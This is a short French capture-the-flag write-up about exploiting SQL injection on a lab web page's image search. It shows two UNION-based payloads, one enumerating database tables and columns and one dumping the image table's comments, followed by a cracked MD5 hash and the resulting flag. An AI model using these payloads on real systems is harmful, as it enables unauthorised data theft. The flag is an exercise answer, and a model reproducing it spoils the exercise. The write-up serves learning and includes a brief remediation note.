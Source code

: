 sur http://192.168.99.102/?page=searchimg

Nous savons déjà comment lister les colonnes et les tables de la db:

```sql
1 AND 1=2 UNION ALL SELECT table_name, column_name FROM information_schema.columns
```

un petit CMD + F d'image nous indique directement que la table à exploité est `list_images`:

dans la table list_images nous avons:
id
url
title
comment

la colonne `comment` etait un bon point de depart sur l'autre faille:

testons alors d'afficher les comment et le title:

```sql
1 AND 1 = 2 UNION ALL SELECT title, comment FROM list_images
```

Amelioration:

Gerer les sqli, protegers les strings envoyer en request.

```
"If you read this just use this md5 decode lowercase then sha256 to win this flag !"
```

```
1928e8083cf461a51303633093573c46 -> albatroz 
sha256 => f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188
```
